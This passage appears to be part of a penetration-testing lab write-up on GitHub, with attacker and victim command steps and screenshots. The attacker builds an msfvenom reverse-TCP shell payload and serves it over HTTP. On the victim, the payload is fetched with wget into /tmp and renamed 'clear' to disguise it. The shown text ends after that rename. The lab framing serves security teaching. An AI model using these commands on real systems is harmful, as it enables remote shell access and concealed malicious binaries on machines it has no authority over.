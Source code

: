 ## Section 4: Exploiting arper utilizing msfvenom as a reverse shell

[3:25:45]
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/1a7d5b6e-dc59-4b1d-bac5-b5b1e7ac049c)
### (ATTACKER) 
```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.122.209
```

```
ls 
```

```
sudo rm -r __MAC0SX
```

```
file mal
```
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/88dadbc3-7f9b-4f49-be04-8eeef1d50722)

```
python3 -m http.server 8000
```
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/f69be757-f20c-4bfc-89d2-e38541188b0d)

## Root

### (VICTIM) 


```
cd /tmp
```

```
wget http://192.168.122.209:8000/mal
```

```
ls
```

```
ls -al
```

```
mv mal clear
```
(Malicious binary is known as clear)

```
ls
```
